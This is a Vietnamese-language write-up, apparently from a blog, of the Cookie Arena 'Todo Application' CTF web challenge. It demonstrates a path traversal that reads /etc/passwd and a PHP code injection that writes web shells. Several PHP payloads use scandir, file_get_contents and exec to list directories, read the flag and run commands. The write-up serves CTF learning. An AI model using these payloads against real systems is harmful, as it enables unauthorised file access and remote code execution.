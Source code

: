 ```yaml
---
title: Write-Up Todo Application
date: 2023-10-05 18:34:01 +0700
categories: [CTF, Cookie Hân Hoan, Write-Up]
tags: [web, write-up, ctf]     # TAG names should always be lowercase
---
```

ĐỊA CHỈ: [https://battle.cookiearena.org/challenges/web/todo-application](https://battle.cookiearena.org/challenges/web/todo-application)

## **Challenge Details**

All your work will be saved to a checklist in the todo.txt file. Can a PHP Web Shell be created on this server? Could you try and read FLAG? (Chắc lại phải RCE ời).

- **Flag Location: /flagXXXX.txt**
- **Flag Format: CHH{XXX}**
- **Credits: YesWeHack**

## **Tags**

- Code Injection
- PHP
- YesWeHack

## ****Web Analysis:****

Tại `/` trang web:

Quan sát ta thấy 1 ô input và 1 đoạn code PHP hmm.

![Untitled](/assets/writeup/cookie/TodoApplication/Untitled.png)

Mình thử nhập bất kì vào ô input và ấn enter.

![Untitled](/assets/writeup/cookie/TodoApplication/Untitled%201.png)

Ta quan sát thấy và rằng xuất hiện 2 parameter `?add` và `&fileTodo` 

Hiểu nhanh là `?add=input_strings` và  `&fileTodo=_input_file` —> **+1 idea test bug path traversal**

## ****Source Code Analysis:****

Này không copy được code nên mình giải thích nhanh nhé:

khai báo biến $file với giá trị là todo.txt khi input ta nhập vào checkbox và nó sẽ set vào param là ?add + với $file là todo.txt.

Nên bất kì mình nhập vào ô input thì nó đều ghi vào file.

Nhưng đoạn code không có thêm blacklist hay whitelist kiểm tra về ghi mã độc và kiểm tra đuôi file. Nên đều này có thể dẫn đến hacker có thể ghi 1 file webshell vào input và đỗi đuôi file từ .txt sang .php dẫn dến có thể RCE hệ thống.

![Untitled](/assets/writeup/cookie/TodoApplication/Untitled%202.png)

yaaa kiểm chứng nào.

## ****Exploiting Code Injection, Path traversal:****

Chứng minh có bug path traversal ( Là 1 hacker giỏi không bao giờ bỏ sót bugs, dù nó không có Flag trong đó nhưng vẫn check nhé).

### Cách 1: sử dụng hàm scandir và file_get_contents

Gói tin ban đầu.

![Untitled](/assets/writeup/cookie/TodoApplication/Untitled%203.png)

Thử thêm ../../etc/passwd vào $filetodo xem có được hay không nhé.

![Untitled](/assets/writeup/cookie/TodoApplication/Untitled%204.png)

Bèm có bugs path traversal luôn, lòi luôn cái path file index.php 🙂 (do file flag random nên không xem được bằng lỗi này, phải RCE thôi)

đoạn code trong cái ảnh ở trên nè

`/var/www/app/index.php`

![Untitled](/assets/writeup/cookie/TodoApplication/Untitled%205.png)

Chứng minh ghi được code php và thay đỗi đuôi file.

![Untitled](/assets/writeup/cookie/TodoApplication/Untitled%206.png)

Ghi vào khi báo bugs gì giờ test `/info.php` xem. 

Tèn ten được luôn đây này, giờ thì làm cái file shell và đọc file flag thôi nhỉ?

![Untitled](/assets/writeup/cookie/TodoApplication/Untitled%207.png)

Nhưng mình test 7749 cách ghi shell nhưng phát hiện bị disable funtions nên hết ghi được file shell
(à không phải hết mà do test thiếu case 🙂 nó sẽ ở cách 2 nhé, giờ mình chỉ cách bị disable funtions)

![Untitled](/assets/writeup/cookie/TodoApplication/Untitled%208.png)

Tuy vậy mình phát hiện ra rằng nó không hề disable `file_get_contents` và `scandir` .

- `scandir` : liệt kê tất cả các file (giống cmd ls trên ls)
- `file_get_contents` : đọc file

Giờ code nhẹ nhé

Search google về scandir thì có sẵn rồi : [ở đây nè](https://www.w3schools.com/php/func_directory_scandir.asp)

ở khúc bug path traversal ấy, ../../../ 3 lần là quay về thư mục gốc nên sửa lại trong này để liệt kê các file ở thư mục gốc nhé.

Payload: 

```php
<?php
$dir = "../../../";
$a = scandir($dir);
print_r($a);
?>
```

Lười ghi nên copy past qua đây cho lẹ

![Untitled](/assets/writeup/cookie/TodoApplication/Untitled%209.png)

![Untitled](/assets/writeup/cookie/TodoApplication/Untitled%2010.png)

Send và đọc file `1.php`

![Untitled](/assets/writeup/cookie/TodoApplication/Untitled%2011.png)

1 file pha ke và 1 file real.

biết được tên file flag rồi thì dùng `file_get_contents` đọc ra thôi.

Payload:

```php
<?php
$dir = "../../../";
$a = scandir($dir);
$b =file_get_contents("../../../flagqsBKh.txt");
print_r($a);
print_r($b);
?>
```

![Untitled](/assets/writeup/cookie/TodoApplication/Untitled%2012.png)

DONE cách 1

![Untitled](/assets/writeup/cookie/TodoApplication/Untitled%2013.png)

### Cách 2: sử dụng hàm EXEC RCE.

Mình đã test thiếu case này do không khai báo biến. Để rồi mò luôn cả CVE của php lạc hướng luôn :<

Bình thường mình test webshell sẽ kiểu như này.

```php
<?php exec(id); ?>
```

![Untitled](/assets/writeup/cookie/TodoApplication/Untitled%2014.png)

![Untitled](/assets/writeup/cookie/TodoApplication/Untitled%2015.png)

Nó không cho in ra, nên mình đã loại trừ nó nhanh chóng để test case khác.

Nhưng mình đã sai, giờ cũng sửa nhé.

Vì trang web hình như không cho `echo` ra trực tiếp nên mình sẽ khai báo biến và test lại.

Payload:

```php
<?php
$a = exec(id);
echo($a)
?>
```

![Untitled](/assets/writeup/cookie/TodoApplication/Untitled%2016.png)

![Untitled](/assets/writeup/cookie/TodoApplication/Untitled%2017.png)

Giờ thì thực thi webshell bình thường

```php
<?php
$a = exec('ls /');
echo($a)
?>
```

Xem file và cat file nhé

donee =)))

Cảm ơn các bạn đã xem write up của mình =)) có góp ý hay thắc mắc add mình qua discord nha 

id discord : `ren6806`